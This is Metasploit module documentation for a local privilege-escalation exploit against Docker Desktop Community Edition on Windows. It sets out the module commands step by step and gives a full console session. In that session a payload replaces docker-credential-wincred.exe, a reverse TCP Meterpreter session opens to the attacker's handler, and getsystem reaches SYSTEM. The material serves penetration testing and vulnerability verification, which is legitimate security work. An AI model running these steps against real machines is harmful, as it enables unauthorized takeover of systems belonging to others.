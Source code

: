 ## Vulnerable Application

  Docker Desktop Community Edition before 2.1.0.1
  https://download.docker.com/win/stable/28905/Docker%20for%20Windows%20Installer.exe

## Verification Steps

  1. Docker Desktop Community Edition before 2.1.0.1
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/docker_credential_wincred```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. Using an administrator cmd shell on the target, run ```docker login``
  8. You should get a shell you can elevate with ```getsystem```.

## Scenarios

### Tested on Docker Community Edition 2.0.0.0 running on Windows 10x64 Release 1803

  ```
msf5 exploit(windows/local/docker_credential_wincred) > show options

Module options (exploit/windows/local/docker_credential_wincred):

   Name         Current Setting                            Required  Description
   ----         ---------------                            --------  -----------
   PROGRAMDATA  C:\ProgramData\DockerDesktop\version-bin\  no        Path to docker version-bin.
   SESSION                                                 yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/local/docker_credential_wincred) > set session 1
session => 1
msf5 exploit(windows/local/docker_credential_wincred) > check

[*] Docker version 18.09.0, build 4d60db4
[*] The target appears to be vulnerable.
msf5 exploit(windows/local/docker_credential_wincred) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Docker version 18.09.0, build 4d60db4
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] payload_pathname = C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Making Payload
[*] Uploading Payload to C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Payload Upload Complete
[*] Waiting for user to attemp to login
[*] Sending stage (180291 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49766) at 2020-04-15 16:32:09 -0500

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

